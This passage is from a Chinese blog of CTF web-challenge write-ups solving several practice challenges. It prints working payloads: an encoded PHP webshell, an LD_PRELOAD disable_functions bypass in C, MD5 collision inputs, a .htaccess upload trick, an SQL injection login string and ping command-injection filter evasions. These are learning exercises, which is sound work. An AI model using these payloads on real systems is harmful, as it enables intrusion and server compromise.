[^a]除a以外和[@-[]匹配 @-[之间的字符，@和[都是使用ascii值匹配，这里表示匹配大写字母最后将命令写入文件中，上传至服务器，使用
. file访问执行即可，. file执行文件，不需要文件本身有可执行权限
本题使用的便是php7执行动态函数的原理
查询phpinfo收集信息及构造命令连接一句话
查询phpinfo()；
phpinfo中包含了许多的隐私信息，其中和本题直接相关的，是disable_function，函数禁用信息

构造一句话连接
<?php
$code = 'assert';
echo urlencode(~$code);
$b = '(eval($_POST["a"]))';
echo "\n",urlencode(~$b);
# 结果：
# %9E%8C%8C%9A%8D%8B
# %D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%DD%9E%DD%A2%D6%D6
payload
?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%DD%9E%DD%A2%D6%D6);
//?code=(assert)((eval($_POST["a"])));
经过php7的动态函数调用，等同于assert(eval($_POST[“a”]));
注意：
这里需要使用assert断言函数执行命令而不是直接eval函数执行命名
我不知道为什么，希望知道的师傅留言给我
然后蚁剑连接即可

连接后我们是不能直接查看flag的，因为disable_function没有绕过
蚁剑绕过disable_function
下载蚁剑插件加载

选择模式

这里网上许多wp说选择LD模式，可我这里会发生错误，经过我一个个试发现，PHP7_GC_UAF模式可用
选择后直接开始，cd至根目录，执行命令/readflag即可

payload
http://17966f92-e44f-44b1-a1c5-60057e8aefe3.node3.buuoj.cn/?code=(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%9E%A2%D6%C4);
POST:
a=phpinfo();
cd /
/readflag
flag
flag{ca4a67fd-cf8d-412b-acc9-efd05daefd09}
原理解析
这里可以看出题人自己写的博客
简单来说，就是先找到一个可以调用能在运行时候启动子进程的函数，例如用于发送文件的mail()函数
然后写一个C脚本（C语言是php的底层代码）
用C脚本改写mail()函数在运行时调用的函数
这里直接贴出大佬的代码
这里可以直接看大佬的文章
https://www.anquanke.com/post/id/175403
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
void payload() {
system("ls / > /tmp/sky");
}
int geteuid()
{
if (getenv("LD_PRELOAD") == NULL) { return 0; }
unsetenv("LD_PRELOAD");
payload();
}
//编译
//gcc -c -fPIC hack.c -o hack
//gcc --share hack -o hack.so
运行脚本
<?php
putenv("LD_PRELOAD=./hack.so");
mail('','','','');
?>
懂了，不会用，只好以后学了更多东西之后试了
[MRCTF2020]Ez_bypass
md5碰撞
参考链接
https://muouim.github.io/2019/01/30/MD5%E7%A2%B0%E6%92%9E/
MD5碰撞大致分为三种
字符串0e绕过
当md5值在php中是使用==或者!=判断时，存在这个漏洞
php会将0e解释为0的x次方，结果为0
一些字符串在md5加密后是以0E开头，便会造成这个漏洞
s878926199a
0e545993274517709034328855841020
s155964671a
0e342768416822451524974117254469
s214587387a
0e848240448830537924465865611904
s214587387a
0e848240448830537924465865611904
s878926199a
0e545993274517709034328855841020
s1091221200a
数组绕过
为了避免上述的漏洞，开发人员一般都使用===对md5值进行判断，这样的确可以有效避免0E漏洞
但php的md5()函数无法解析数组，接收数组时默认值为0，所以传入数组即可绕过===
?id[]=1&gg[]=2

真实碰撞
为了应付上述的两种情况，一般使用强制转化的方法
if ((string) $_GET['a'] !== (string) $_GET['b'] &&
md5($_GET['a']) === md5($_GET['b']))
同时使用强制字符串转化和===，这时前两种方法就都无法使用了，只能用真实碰撞
md5的加密方式虽然不可逆，但会存在字符串碰撞的问题，虽然概率极低。我们叫它真实碰撞
参考链接：
https://zhuanlan.zhihu.com/p/131283811
自己强行爆破肯定行不通，所以这里我们使用已有的工具
下载工具，新建1.txt 内容为1，打开cmd运行命令
fastcoll_v1.0.0.5.exe -p a.txt -o 1.txt 2.txt

运行php脚本，读取得到的文件并转化为url编码上传
<?php
function readmyfile($path){
$fh = fopen($path, "rb");
$data = fread($fh, filesize($path));
fclose($fh);
return $data;
}
echo '二进制hash:'.md5((readmyfile("1.txt"))),"\r\n";
echo 'url编码:'.urlencode(readmyfile("1.txt")),"\r\n";
echo 'url hash:'.md5(urlencode(readmyfile("1.txt")))."\r\n\n";
echo '二进制hash:'.md5((readmyfile("2.txt"))),"\r\n";
echo 'url编码:'. urlencode(readmyfile("2.txt")),"\r\n";
echo 'url hash:'.md5(urlencode(readmyfile("2.txt"))),"\r\n";
成功：

对== 和!= 的类型绕过
下一步，题目要求POST传参一个密码，值为1234567，但传参不能是数字

在1234567后任意输入非数字字符，将它从整形改为字符型即可，这里我推荐使用%00

payload
http://b76c8ae6-00d3-45ee-a963-f52aa201e859.node3.buuoj.cn/
?id=1%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%B2%EB%FA%AE%7FR%40%9A%80%05A%0BV%5C%9E%0D%D4%13%D0c%E0%99U%DD5%96z%0A%D3%A7%918%C6%E3%13%CD%80%8C%851%EF%0D%3B%3A%F8%DF%07%BC%EC%FD%05%9E%94%2Fv%A8%91z%ADW%BA%C7%18%0A%A9s%21K%ED+%97C%D5%3D%159%DB%E0%F7%02%C1%E1%28GH%9A%91%F8%29%B3%00p%17%60%88%C7%D7%D3B%08%AF%C3%81%16z%00R%9C%C2g%FD%CDFT%F5n%7F%82%3F%BD%40%C8%D7%C1V%E8%CDT
&gg=1%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%B2%EB%FA%AE%7FR%40%9A%80%05A%0BV%5C%9E%0D%D4%13%D0%E3%E0%99U%DD5%96z%0A%D3%A7%918%C6%E3%13%CD%80%8C%851%EF%0D%3B%3A%F8_%08%BC%EC%FD%05%9E%94%2Fv%A8%91z%AD%D7%BA%C7%18%0A%A9s%21K%ED+%97C%D5%3D%159%DB%E0%F7%02%C1%E1%28%C7H%9A%91%F8%29%B3%00p%17%60%88%C7%D7%D3B%08%AF%C3%81%16z%00R%9C%C2%E7%FC%CDFT%F5n%7F%82%3F%BD%40%C8%D7AV%E8%CDT
passwd=1234567%00
或者：
http://b76c8ae6-00d3-45ee-a963-f52aa201e859.node3.buuoj.cn/
?id[]=1&gg[]=2
passwd=1234567%00
flag
flag{2ad589d4-ee27-4bd0-a7c9-143ae3d4729e}
[MRCTF2020]你传你🐎呢
文件上传，请求伪造
这道题明显是先让我们上传一个一句话木马
直接上传一个1.php，burp抓包，先直接放包看看

直觉告诉我是对文件后缀和类型的检测，直接在burp改数据

成功，猜测正确
这时候我们上传的只是一个图片，没有解析，所以再试着上传.htaccess文件
先直接在重发器改名试试

成功，说明允许上传.htaccess文件
编写htaccess文件上传
SetHandler application/x-httpd-php

成功

认识disable_function
访问木马文件

成功
看看phpinfo();里有什么我们需要知道的信息
我们想通过木马执行命令，首先要看的就是disable_function 函数禁用

可以看到这道题禁用了很多可以执行命令的函数，我自己是想不到用什么来执行了，所以直接蚁剑
拿到flag

flag
flag{829ab6a4-7198-457a-8256-c98a3f9ca279}
[MRCTF2020]PYWebsite
ip伪造
查看源码，有个flag.php
访问他
这里说保存了购买者ip，只有够买者和自己能看到
然后他在之前说成功案例，成功把我坑进去了
这里伪造ip为127.0.0.1访问flag.php即可

flag
flag{fdd65d46-7350-4fab-9cd5-ab4129cbdba6}
.DS_Store 文件
既然提到我被绕了进去，就顺便说说这个知识点

这里说小A买了flag，于是我到misc看了下，发现有个.DS_Store文件，用awvs扫描目录，发现这道题有很多的.DS_Store文件
先说说.DS_Store文件是什么
.DS_Store(英文全称 Desktop Services Store)是一种由苹果公司的Mac OS X操作系统所创造的隐藏文件，目的在于存储目录的自定义属性，例如文件的图标位置或者是背景色的选择。相当于 Windows 下的 desktop.ini。
上面是这个文件的定义，但我们不需要过多了解这些，我们应该知道的是
这个文件会造成网站的目录泄露，通过这个文件，我们可以知道目录的清单
.DS_Store可以用linux系统查看或者下载Python-dsstore工具，也可以查看二进制文件（比较麻烦）
下载地址：
https://github.com/gehaxelt/Python-dsstore
在本题我扫到了四个.DS_Store文件

这道题看这些没什么意义，我就选最易看的说吧
比如： http://node3.buuoj.cn:27314/img/.DS_Store
这个.DS_Store文件在img目录下，我们可以通过它得到这个目录的信息

一般访问就能下载它

可以看到header.png等字样，随机选一个去访问

访问成功
虽然这只是一个小插曲，但我们需要懂得它
[MRCTF2020]套娃
名副其实的套娃
字符串及正则绕过
进入后查看源代码
$_SERVER[‘QUERY_STRING’] 获取请求字符串，以SERVER传给变量query
这里，我们首先要知道超全局变量的概念
我们平时最常用的$_POST,$_GET都是其中的一员
超全局变量
超全局变量是在全部作用域中始终可用的内置变量
PHP 中的许多预定义变量都是“超全局的”，这意味着它们在一个脚本的全部作用域中都可用。在函数或方法中无需执行 global $variable; 就可以访问它们。
QUERY_STRING 请求字符串详解
首先将$_SERVER['QUERY_STRING']的值赋给变量$query
关于$_SERVER['QUERY_STRING']获取的值：
1，http://localhost/aaa/ (打开aaa中的index.php)
结果：
$_SERVER[‘QUERY_STRING’] = “”;
$_SERVER[‘REQUEST_URI’] = “/aaa/“;
$_SERVER[‘SCRIPT_NAME’] = “/aaa/index.php”;
$_SERVER[‘PHP_SELF’] = “/aaa/index.php”;
2，http://localhost/aaa/?p=222 (附带查询)
结果：
$_SERVER[‘QUERY_STRING’] = “p=222”;
$_SERVER[‘REQUEST_URI’] = “/aaa/?p=222”;
$_SERVER[‘SCRIPT_NAME’] = “/aaa/index.php”;
$_SERVER[‘PHP_SELF’] = “/aaa/index.php”;
结果：
$_SERVER[‘QUERY_STRING’] = “p=222&q=333”;
$_SERVER[‘REQUEST_URI’] = “/aaa/index.php?p=222&q=333”;
$_SERVER[‘SCRIPT_NAME’] = “/aaa/index.php”;
$_SERVER[‘PHP_SELF’] = “/aaa/index.php”;
由实例可知：
$_SERVER[“QUERY_STRING”] 获取查询 语句，实例中可知，获取的是?后面的值
$_SERVER[“REQUEST_URI”] 获取 http://localhost 后面的值，包括/
$_SERVER[“SCRIPT_NAME”] 获取当前脚本的路径，如：index.php
$_SERVER[“PHP_SELF”] 当前正在执行脚本的文件名
此段原文地址：https://www.cnblogs.com/mitang/p/3874291.html
可见QUERY_STRING获取的是？后的所有内容
bypass substr_count()
wp这里告诉我们使用点或%20，但这只在本题适用
这里的本意是寻找一个字符代替_，我们都知道，所有的字符都可以用ascii码表示，而url编码可以被浏览器解析
直接写脚本爆破试试
import requests
for i in range(0,256): #设置256个数
code_hex = hex(i) #将数字改为16进制编码
code_int = code_hex.replace("0x","") #将code_hex的0x替换为空
#print(code)
if len(code_int)<2:
code_str = "%0" + code_int
else:
code_str = "%" + code_int
url = "http://b489ab93-6c1b-46f2-b07d-8a3d41746b8e.node3.buuoj.cn/?b"+code_str+"u"+code_str+"p"+code_str+"t=23333"
res = requests.get(url = url).text
reslen = len(res)
# print(reslen)
if reslen != 989 :
print(code_str)
由此可知，%20（空格），%2e （点）都可以代替%5f (下划线)
随便选一个用
bypass 正则
要以23333开头并以23333结尾，我开始的想法是23333%00或者23333111123333，结果都不行，搞不懂
所以直接爆破试试，肯定是特殊字符中的一个，无非是开头，中间，结尾的区别，正好写了现成的脚本
开头中间都没有，结尾可以使用换行符
import requests
for i in range(0,256): #设置256个数
code_hex = hex(i) #将数字改为16进制编码
code_int = code_hex.replace("0x","") #将code_hex的0x替换为空
#print(code)
if len(code_int)<2:
code_str = "%0" + code_int
else:
code_str = "%" + code_int
url = "http://1014064c-f83d-4790-b53a-cadac0d9cd62.node3.buuoj.cn//?b u p t=23333"+code_str
res = requests.get(url = url).text
reslen = len(res)
# print(reslen)
if reslen != 1014 :
print(code_str)
%0a是换行符，%5f是之前被过滤的下划线，所以用%0a即可

javascript编码和ip伪造
javascript的特殊编码
进入secrettw.php
查看源代码
注释的那行，是javascript格式的编码，直接使用浏览器自带的js编辑器即可
post传入Merak，值随意
得到部分源代码
ip伪造的两种方式
web常见的传入ip方式一般有两种，最常见的是XFF，其次是Client-ip
经测试，本题是Client-ip
Client-ip可以直接在burp修改，也可以使用修改文件头的插件，虽然常用的插件没有提供Client-ip，但问题不大

手撸上去即可
XFF所有的改请求头插件都有，这里不做说明
反写代码与data伪协议
反写代码
这里本题写了一个ascii移位，将传上去的file变成了编码，需要我们反写这个移位规则
<?php
$v = "ZmpdYSZmXGI=";
$v = base64_decode($v);
$re = '';
for($i=0;$i<strlen($v);$i++){
$re .= chr ( ord ($v[$i]) + $i*2 );
}
echo $re,"\n";
$b = "flag.php";
for ($i=0;$i<strlen($b);$i++)
{
$rb .= chr(ord($b[$i]) - $i*2);
}
echo base64_encode($rb);
成功
data伪协议
这里题目用file_get_contents()函数包裹了GET传入的2333,然后才进行比较
file_get_contents()函数用于打开文件，显然无法打开传入的字符串
构造data://协议，将字符串转为字节流让file_get_contents()函数可以读取
data://text/plain;base64,dG9kYXQgaXMgYSBoYXBweSBkYXk=
text/plain是纯文本格式文件，text/html是html类型文件，所以这里使用text/plain
上传，查看源码拿到flag：
payload
/?b u p t=23333%0a
/secrettw.php
post: Merak=1
header: Client-ip: 127.0.0.1
/secrettw.php?2333=data://text/plain;base64,dG9kYXQgaXMgYSBoYXBweSBkYXk=&file=ZmpdYSZmXGI=
flag
flag{a8b3ea3d-2219-4ea4-ba29-bb135daea8c6}
[MRCTF2020]Ezaudit
伪随机数
题目提示代码审计，直接访问www.zip得到部分源码
post传参u埃尔那么，password和private_key
其中username已知，password可以直接sql注入，parvate_key未知
这里使用的是seed伪随机数漏洞，不过我没有成功复现
简单说，php中用于构造随机数的mt_rand()函数并不是一个真正意义上的随机数
mt_rand函数是通过撒播随机数种子来生成随机数的，并且mt_rand生成随机数只撒播一次种子，之后的随机数都使用同一个种子生成。如果知道了随机数种子，就可以将私钥得出。
mt_scrand(seed)这个函数的意思，是通过分发seed种子，然后种子有了后，靠mt_rand()生成随机数。
这时如果我们知道这个种子，就可以确定的得到这个随机密钥
使用php_mt_seed工具对已知共钥进行爆破即可
先用脚本改写格式
str1='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
str2='KVQP0LdJKRaV3n9D'
str3 = str1[::-1]
length = len(str2)
res=''
for i in range(len(str2)):
for j in range(len(str1)):
if str2[i] == str1[j]:
res+=str(j)+' '+str(j)+' '+'0'+' '+str(len(str1)-1)+' '
break
print(res)
运行php_mt_seed，得到结果
1775196155
然后带入题中得到私钥
<?php
mt_srand(1775196155);
//公钥
function public_key($length = 16) {
$strings1 = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
$public_key = '';
for ( $i = 0; $i < $length; $i++ )
$public_key .= substr($strings1, mt_rand(0, strlen($strings1) - 1), 1);
return $public_key;
}
//私钥
function private_key($length = 12) {
$strings2 = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
$private_key = '';
for ( $i = 0; $i < $length; $i++ )
$private_key .= substr($strings2, mt_rand(0, strlen($strings2) - 1), 1);
return $private_key;
}
echo public_key();
echo private_key();
?>
这里有个奇怪的问题，我运行得到的密钥是3NxjlpuxSI5y，并不是真实的密钥
而wp告诉我密钥是XuNhoueCDCGc
可能是版本问题吧，我没有成功解决这个问题，直接用wp说的密钥
http://e9e64b27-0b84-4234-8d42-47116db13051.node3.buuoj.cn/login.php
post:
Private_key=XuNhoueCDCGc&login=%E7%99%BB%E5%BD%95&password=%27+or+1%3D1--+&username=crispr
flag
flag{e799b498-3d87-4a0b-a120-07efc40d3eb5}
[GXYCTF2019]Ping Ping Ping
命令执行
这里用了ping命令，直接执行
首先，管道符被绕过，所以使用;
?ip=baidu.com;ls
看一眼index.php，确定过滤了什么
空格被过滤，使用$IFS$9替代
?ip=baidu.com;cat$IFS$9index.php
过滤很严，而且不允许任何形式的flag存在，*f*l*a*g*,不过它是按顺序检测到，所以改一下顺序
?ip=baudu.com;a=ag;b=fl;cat$IFS$9$b$a.php
flag
flag{8c2bf6b8-0735-49c6-8546-a3f63af67fb8}
[BJDCTF2020]ZJCTF，不过如此
data://与php://
要求$_GET传参text和file
并且file_get_contents($text)等于I have a dream
其次file中不能存在flag,但同时提醒了next.php文件
payload,伪协议我在前面有说到，不做赘述
